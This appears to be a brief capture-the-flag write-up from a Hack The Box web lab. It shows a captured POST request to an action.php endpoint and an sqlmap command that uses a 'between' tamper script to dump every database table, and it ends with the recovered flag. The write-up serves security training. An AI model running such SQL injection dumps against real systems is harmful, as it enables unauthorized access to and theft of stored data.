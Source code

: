 **What's the contents of table final_flag?**

After browsing around, we find this request and save it under name rass:

```bash
POST /action.php HTTP/1.1
Host: 94.237.52.110:48833
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 8
Origin: http://94.237.52.110:48833
Connection: keep-alive
Referer: http://94.237.52.110:48833/shop.html
Cookie: PHPSESSID=lk2ocjdbcss24spch123ethmn5

{"id":1}
```

After playing with several payloads, we find that the --tamper=between worked it out:

```bash
sqlmap -r rass -p id --dump-all --exclude-sysdbs --tamper=between --batch
```

Results:  HTB{n07_50_h4rd_r16h7?!} 

